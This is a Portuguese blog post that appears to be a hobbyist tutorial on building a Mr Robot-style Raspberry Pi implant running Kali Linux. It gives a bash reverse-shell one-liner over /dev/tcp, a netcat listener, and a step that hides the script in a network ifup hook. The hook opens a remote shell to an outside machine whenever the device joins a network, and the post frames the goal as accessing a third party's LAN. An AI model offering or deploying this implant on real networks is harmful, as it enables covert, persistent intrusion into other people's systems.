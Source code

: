 ```yaml
---
layout: post
title: Mr robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr_robot, raspberry, hack, reverse_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não é exetamente igual as condições encontradas por Elliot na série no episódio eps1.3\_\_da3m0ns.mp4. Portanto, optei por adaptar um pouco esse tutorial para que ele se torne mais fiel ao conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais.

* Baixar o [Kali linux para ARM](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que mais se adequa ao hardware que estiver sendo utilizado. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

<figure class="half">
		<img src="{{ site.url }}/images/offensive-sec.png" alt="">
		<figcaption>offensive security</figcaption>
</figure>


* Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey.

{% highlight bash%}
{% raw %}
bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight bash%}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com esse formato.

* Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

* Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto que nos desviamos um pouco do artigo que utilizamos como base.
No lugar de teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. 

{% highlight bash %}
{% raw %}
mv reverse /etc/network/interfaces/ifup
{% endraw %}
{% endhighlight %}

Dessa forma, assim que a interface do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br


